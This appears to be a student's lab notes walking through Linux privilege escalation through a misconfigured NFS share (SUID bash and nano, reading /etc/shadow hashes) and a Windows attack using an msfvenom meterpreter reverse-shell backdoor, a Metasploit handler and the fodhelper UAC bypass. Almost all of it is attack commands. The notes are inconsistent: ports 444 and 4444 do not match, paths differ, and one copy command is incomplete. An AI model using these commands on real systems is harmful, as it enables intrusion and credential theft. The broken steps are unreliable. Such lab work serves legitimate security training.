 ### Task 4: Escalate Privileges in Linux Machine by Exploiting Misconfigured NFS
---\
**Ubuntu** - Victim
1. sudo apt install nfs-kernel-server
2. sudo nano /etc/exports
3. Add /home             * (rw,no_root_squash) | ==**No space** between * and (==
4. sudo /etc/init.d/nfs-kernel-server restart
**Parrot** - Attacker
5. nmap -sV 10.10.11.10 || ==port 2049 is open==
6. sudo apt-get install nfs-common
7. showmount -e 10.10.11.10
8. mkdir /tmp/nfs
9. sudo mount -t nfs 10.10.11.10:/home /tmp/nfs
10. cd /tmp/nfs
11. sudo cp /bin/bash
12. sudo chmod +s bash
13. ls -la bash
14. ssh -l ubuntu 10.10.11.10
15. cd /home
16. ls
17. ./bash -p
18. id
19. whoami
20. cp /bin/nano
21. chmod 4777 nano
22. ls -la nano
23. cd /home
24. ./nano -p /etc/shadow | ==this shows the hashes of all users.==
25. cat /etc/crontab | ==Display running cronjobs.==

| Command                               | Work                                       |     |
| ------------------------------------- | ------------------------------------------ | --- |
| cat /etc/crontab                      | Display running cronjobs.                  |     |
| ps -ef                                | Display current running processes.         |     |
| find / -name "*.txt" -ls 2> /dev/null | To view all the .txt files on the system.  |     |
| route -n                              | Display host/network names in numeric form |     |
| find / -perm -4000 -ls 2> /dev/null   | Display SUID executable binaries.          |     |

### Task 5: Escalate Privileges by Bypassing UAC and Exploiting Sticky Keys
---
**LAB Manual 2** - Page 731
1. sudo su
2. cd
3. msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.11.10 lport=444 -f exe > /home/attacker/Desktop/backdoor.exe
4. cp /home/attack/Desktop/backdoor.exe /var/www/html/share/
5. service apache2 start
6. msfconsole
7. use exploit/multi/handler
8. set payload windows/meterpreter/reverse_tcp
9. set lhost 10.10.11.10
10. set lport 4444
11. run
15. sysinfo
16. getuid
17. background search bypassuac
18. use exploit/windows/local/bypassuac_fodhelper